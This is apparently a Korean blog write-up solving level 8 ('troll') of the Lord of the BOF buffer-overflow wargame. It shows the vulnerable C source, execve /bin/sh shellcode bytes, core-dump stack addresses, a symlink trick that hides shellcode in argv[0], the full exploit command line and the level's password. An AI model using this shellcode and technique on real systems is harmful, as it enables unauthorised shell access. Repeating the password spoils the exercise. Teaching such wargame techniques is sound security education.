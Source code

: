 ```yaml
---
layout: post
title:  "[LOB]Level08. troll"
subtitle:   "[LOB]orge → troll"
categories: LOB
tags:
- Wargame
- LOB
- Write-up
---
```


## keyword : check argc

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	// here is changed
	if(argc != 2){
		printf("argc must be two!\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);

	// one more!
	memset(argv[1], 0, strlen(argv[1]));
}
```

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81

 argc의 개수를 2로 정해졌으므로, argv[2]를 사용 하지 못한다.

buffer내용도 0으로 초기화 되며, argv[1]를 이용해서 argv[2]를 덮으려고 해도 길이가 48을 넘어 갈 수 없다.

그리고 argv[1]에 넣은 만큼 0으로 초기화 된다.



트롤 맞네... 😩😫



초기화 안된 영역은 argv[0]영역 밖에 없다. 이를 이용하자.

`python -c 'print "A"*44+"\xbf"*4'`

으로 core를 생성 한 후, core덤프에서 x/32s $esp 로 보다보면 파일 이름이 들어간 주소가 보인다.

```sh
0xbffffc44:	 ""
0xbffffc45:	 ""
0xbffffc46:	 ""
0xbffffc47:	 "i686"
0xbffffc4c:	 "./trola"
0xbffffc54:	 ""
0xbffffc55:	 ""
0xbffffc56:	 ""
```



이제 argv[0]에 쉘코드를 넣어야 한다.

> 이때 중요한것은 쉘코드에 '\x2f'값이 없어야 한다. 이유는 '/'문자열이 '\x2f'이기 때문에, 경로로 인식하게 때문이다.



이때 심볼릭링크를 사용해야 한다.

```sh
[orge@localhost orge]$ ln -s troll `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
[orge@localhost orge]$ ls
core
trola
troll
troll.c
??????????????????????????????????????????????????�?^1ɱ2?l?�??�?u��?�����2�Qi00tii0cjo?�QT?�?�?�?
```

```sh
0xbffffa87:	 ""
0xbffffa88:	 ""
0xbffffa89:	 ""
0xbffffa8a:	 ""
0xbffffa8b:	 "i686"
0xbffffa90:	 "./", '\220' <repeats 105 times>, "�\021^1ɱ2\200l\016�\001\200�\001u��\005�����2�Qi00tii0cjo\212�QT\212�\232�\f�\201"
0xbffffb2c:	 ""
0xbffffb2d:	 ""
0xbffffb2e:	 ""
0xbffffb2f:	 ""
```

```
./`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` `python -c 'print "A"*44+"\x90\xfa\xff\xbf"'`
```



쉘코드를 파일 이름으로 심볼릭 링크 했기 때문에, 쉘코드를 파일로 인식을 하게 되고, main함수의 ret가 argv[0]을 가리키고 있는데 해당 주소에는 쉘코드가 있기 때문에 쉘이 실행된다.



##### **troll / aspirin**